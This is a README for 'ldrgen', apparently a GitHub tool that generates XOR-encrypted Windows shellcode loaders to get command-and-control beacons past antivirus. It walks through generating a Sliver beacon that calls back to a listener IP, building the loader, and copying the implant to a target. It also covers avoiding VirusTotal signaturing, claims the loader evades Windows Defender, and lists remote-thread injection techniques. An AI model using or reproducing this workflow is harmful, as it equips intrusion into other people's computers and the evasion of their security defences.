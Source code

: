 # ldrgen

ldrgen is a golang cli tool to generate shellcode loaders

## Usage
```
go build .
./ldrgen --help
```

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you're too lazy to write a loader

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Example (calc.exe)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -key SuperSecureKey1234 --cleanup
cd output && make x64
```

## Example (sliver beacon)

### Sliver Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```
![shellcode_gen](./assets/126b19d26d4e3af6573a5f5bc2802f84.png)

### Loader Generation
```bash
./ldr -bin SEMANTIC_CUPOLA.bin -out output -ldr CreateThread_Xor -enc xor -key aahduiahsdgiasudhagsdashdasgjdhka --cleanup
```
![ldr_gen_1](./assets/b48b971be9df335205f1d3f7a9c768d4.png)
- binfile -> **SEMANTIC_CUPOLA.bin**
- output to -> **./output**
- use technique -> **CreateThread**
- with encryption: **xor**
- with key: **aahduiahsdgiasudhagsdashdasgjdhka**
- delete tempfiles after compilation: **true**

### Compilation
- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)
```bash
cd output && make x64
```
![ldr_gen_2](./assets/da7bf205f86324a0a7275d57760fb7db.png)

![ldr_gen_3](./assets/6b69c6bb7c677ff7b9ea7f2cd6ea1692.png)

### Beacon
Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)

![vt](./assets/80f44df4910f31c74259ccfbddc7f97d.png)
*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.

![windef](./assets/9a6355fc57ae8c9afb8bf9f73bc8e71a.png)

### Beacon Callback
![sliver_callback](./assets/207cde0dd0375bfa437d937ca7414e2b.png)
![sliver_rubeus](./assets/619e6ee387d2bfe44f4927f8f53054a1.png)

### OPSEC
- This tool **helps** with **generating loaders** using templates, it **does not** help with **OPSEC**. 
- Evasive features of the loader is up to the operator to implement.

## Loader Tokens
Currently available injection tokens:
- [Inline.c](./templates/Source/Inline.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READWRITE*, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READ*, `WriteProcessMemory`, `VirtualProtectEx` with *PAGE_EXECUTE_READ* and `CreateRemoteThread` to execute shellcode

## Shellcode Templates
These are globally accessible variables via loader templates, and will be replaced with the appropriate values when generating the loader source code.
1. [Shellcode.c](./templates/Source/Shellcode.c)
    - `${SHELLCODE}` -> shellcode in the format: { 0x00, 0x00, 0x00, 0x00, ... }
    - `${SHELLCODE_SIZE}` -> shellcode length in bytes
2. [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`